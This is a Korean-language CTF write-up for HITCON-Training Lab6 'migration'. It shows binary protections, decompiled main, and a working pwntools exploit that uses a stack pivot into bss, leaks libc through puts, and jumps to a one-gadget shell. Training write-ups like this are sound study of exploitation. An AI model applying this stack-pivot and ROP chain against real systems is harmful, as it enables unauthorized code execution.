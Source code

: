 ```yaml
---
title: "[HITCON-Training]Lab6"
date: 2019-11-17
ctf: HITCON-Training
layout: post
---
```


32비트 바이너리다.

```
migration: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.32, BuildID[sha1]=e65737a9201bfe28db6fe46f06d9428f5c814951, not stripped
```

보호기법은 Full RELRO, NX가 걸려있다.

```
[*] '/vagrant/ctfs/migration'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

메인은 그냥 입력을 받는데 ebp-0x28위치에 있어서 payload를 쓸 수 있는 공간이 크지 않다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [esp+0h] [ebp-28h]

  if ( count != 1337 )
    exit(1);
  ++count;
  setvbuf(_bss_start, 0, 2, 0);
  puts("Try your best :");
  return read(0, &buf, 64u);
}
```

stack pivot을 이용해서 풀었다.

sfp에 bss1을 씀으로 ebp 변경하고 read로 ret을 해서 입력을 받은 값이 bss1 영역에 들어간다. 그리고 leave-ret으로 다음 입력 받는 값을 ebp로 바꾼다. 그리고 그 다음 주소는 eip가 되고 그 주소로 jmp한다.

> exploit.py

```python
from pwn import *

context.arch = 'i386'
# context.log_level = 'debug'
e = ELF('./migration')
p = process('./migration')
libc = e.libc
bss1 = e.bss() + 0x100
bss2 = bss1 + 0x100
pr = 0x0804836d # pop ebx ; ret
leave_ret = 0x08048418

payload = 'A'*40
payload += p32(bss1) # sfp -> ebp
payload += p32(e.plt['read'])
payload += p32(leave_ret)
payload += p32(0)
payload += p32(bss1)
payload += p32(0x100)

p.sendafter(':',payload)

payload2 = p32(bss2) # ebp
payload2 += p32(e.plt['puts']) # eip -> jmp
payload2 += p32(pr)
payload2 += p32(e.got['puts'])
payload2 += p32(e.plt['read'])
payload2 += p32(leave_ret)
payload2 += p32(0)
payload2 += p32(bss2)
payload2 += p32(0x100)

p.sendline(payload2)
p.recvuntil('\n')

libc_base = u32(p.recv(4)) - libc.symbols['puts']
log.info('libc_base : ' + hex(libc_base))

payload3 = 'AAAA'
payload3 += p32(libc_base + 0x3ac5c) # oneshot

p.sendline(payload3)

p.interactive()
```